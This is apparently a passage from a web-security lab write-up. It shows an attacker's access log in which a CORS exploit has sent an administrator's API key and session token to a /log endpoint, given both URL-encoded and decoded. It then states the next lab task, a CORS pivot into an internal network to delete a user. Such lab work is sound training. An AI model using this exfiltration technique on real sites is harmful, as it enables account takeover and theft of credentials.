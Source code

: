 In our access log we recieved:

```

10.0.4.230      2023-01-11 18:11:38 +0000 "GET /log?key={%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22tjthttC8Sn9Zjzh0i8eoGz02912I16Gs%22,%20%20%22sessions%22:%20[%20%20%20%20%22OMyKf4hCiTZkGuwgpCpQ1sIOkrFxCPTg%22%20%20]} HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.124 Safari/537.36"

```


Which decoded is:


```

10.0.4.230      2023-01-11 18:11:38  0000 "GET /log?key={  "username": "administrator",  "email": "",  "apikey": "tjthttC8Sn9Zjzh0i8eoGz02912I16Gs",  "sessions": [    "OMyKf4hCiTZkGuwgpCpQ1sIOkrFxCPTg"  ]} HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.124 Safari/537.36"


```


## Lab: CORS vulnerability with internal network pivot attack

This website has an insecure CORS configuration in that it trusts all internal network origins.

This lab requires multiple steps to complete. To solve the lab, craft some JavaScript to locate an endpoint on the local network (192.168.0.0/24, port 8080) that you can then use to identify and create a CORS-based attack to delete a user. The lab is solved when you delete user Carlos.